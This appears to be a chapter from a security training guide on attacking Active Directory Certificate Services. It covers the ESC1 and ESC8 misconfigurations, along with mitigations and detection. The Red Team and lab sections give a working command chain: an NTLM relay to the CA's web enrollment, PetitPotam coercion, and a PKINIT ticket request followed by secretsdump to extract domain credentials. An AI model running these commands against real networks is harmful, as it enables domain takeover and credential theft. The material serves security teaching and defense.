


# AD Certificate Services (ADCS): The Hidden Threat

> **Executive Summary**: ADCS is Microsoft's PKI implementation. It allows users and computers to request Certificates. These certificates can be used for **Kerberos Authentication**. ADCS vulnerabilities (Certified Pre-Owned) allow attackers to request certificates for *other users* (Escalation) or coerce DCs to authenticate to them (Relay to CA). This is the new frontier of AD hacking.

## 1. Learning Objectives
By the end of this chapter, you will be able to:
- **Enumerate Templates**: Find vulnerable Certificate Templates (ESC1).
- **Misconfigured Enrollment**: Exploit `ENROLLEE_SUPPLIES_SUBJECT` (ESC1).
- **Relay to CA**: Combine **PetitPotam** with **NtlmRelayx** to get a DC Certificate (ESC8).
- **Persistence**: Forge certificates for long-term access.

## 2. Core Concepts: ADCS Architecture

### 2.1 Enterprise CA
An Active Directory-integrated Certificate Authority.
- Publishes **Templates** to AD.
- Users request certs based on these templates.

### 2.2 Certificate Templates
Blueprints defining:
- Who can enroll? (ACL).
- What is the cert for? (Client Auth, Code Signing).
- How is the Subject Name defined? (From AD, or supplied by User).

### 2.3 Authentication via Certs
If you have a valid Certificate with EKU (Extended Key Usage) of **Client Authentication** or **Smart Card Logon**, you can use it to request a Kerberos TGT (PKINIT).
- **Implication**: A certificate = A password.

## 3. Deep Dive: ESC1 (Misconfigured Template)

### 3.1 The Flaw
A template has:
1.  **Client Authentication** EKU.
2.  **Enrollment Rights** for Low Priv users (e.g., Domain Users).
3.  **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT**: The user can specify the SAN (Subject Alternative Name).

### 3.2 The Attack
1.  User "Bob" requests a cert using this template.
2.  Bob specifies "Administrator" as the SAN.
3.  CA issues a cert for "Administrator".
4.  Bob uses cert to authenticate as Admin.

## 4. Deep Dive: ESC8 (NTLM Relay to HTTP Web Enrollment)

### 4.1 The Flaw
The ADCS Web Enrollment interface (HTTP) supports NTLM auth and does not support Signing (Relayable).
- **Attack Chain**:
    1.  Attacker runs `ntlmrelayx` pointing to the CA Web URL.
    2.  Attacker uses **PetitPotam** to force the Domain Controller to authenticate to the Attacker.
    3.  Attacker relays DC's NTLM to CA.
    4.  CA issues a Certificate for the DC.
    5.  Attacker uses DC Cert to DCSync the domain.

## 5. Red Team Perspective

### 5.1 Certify / Certipy
Tools to enumerate and exploit ADCS.
- **Enumerate**: `Certify.exe find /vulnerable`.
- **Request**: `Certify.exe request /ca:CA01 /template:VulnTemplate /altname:Administrator`.

### 5.2 PetitPotam
Coerces authentication via MS-EFRPC.
`PetitPotam.exe [Attacker_IP] [Target_DC_IP]`

### 5.3 Rubeus PKINIT
Convert Cert (.pfx) to TGT.
`Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:123 /ptt`

## 6. Blue Team Perspective

### 6.1 Mitigation
- **ESC1**: Never allow `ENROLLEE_SUPPLIES_SUBJECT` on templates that allow Client Auth + Domain Users enrollment.
- **ESC8**: Disable HTTP Web Enrollment if not needed, or enable **Extended Protection for Authentication (EPA)** and Require SSL.

### 6.2 Detection
- **Event ID 4886**: Certificate Request. Look for SANs that don't match the requester.
- **PetitPotam**: Detect anonymous RPC calls to LSARPC pipe on DC.

## 7. Practical Lab: ESC8 Attack

### Scenario: From Zero to Hero
**Target**: CA Server (192.168.1.20) running Web Enrollment. DC (192.168.1.10).

**Step 1: Start Relay**
```bash
ntlmrelayx.py -t http://192.168.1.20/certsrv/default.asp -smb2support --template DomainController --adcs
```

**Step 2: Trigger PetitPotam**
```bash
python3 PetitPotam.py 192.168.1.5 (Attacker) 192.168.1.10 (DC)
```

**Step 3: Capture Cert**
Ntlmrelayx outputs a Base64 certificate blob for the DC.

**Step 4: Authenticate**
Save to `dc.pfx`.
```bash
gettgtpkinit.py domain.local/dc$ -pfx dc.pfx dc.ccache
export KRB5CCNAME=dc.ccache
secretsdump.py -k dc.domain.local -just-dc
```

## 8. Diagrams

### ESC8 Relay Flow



## 9. Critical Analysis

### The Complexity Gap
ADCS is complex. Admins often click "Duplicate Template", rename it "WebServer 2023", and enable "Supply Subject" because it's easier than configuring SPNs. They don't realize they just created a Domain Admin escalation path. The gap between "It works" and "It's secure" is massive in ADCS.

### Interview Questions
1.  **Q**: What is the difference between a User Certificate and a Computer Certificate?
    -   **A**: Mostly the EKU and the Subject. A Computer cert identifies a machine (`PC$`) and allows machine auth. A User cert identifies a human. Both can be valid for Kerberos PKINIT.
2.  **Q**: Can you use a Certificate to persist after a password change?
    -   **A**: Yes. Certificates have a validity period (e.g., 1 year). Even if the user changes their AD password, the certificate remains valid for authentication until it expires or is revoked (CRL).

## 10. References
- [[06_Active_Directory_Attacks/01_Credential_Harvesting]]
- [[04_Windows_AD/04_Authentication_Protocols_Windows]]
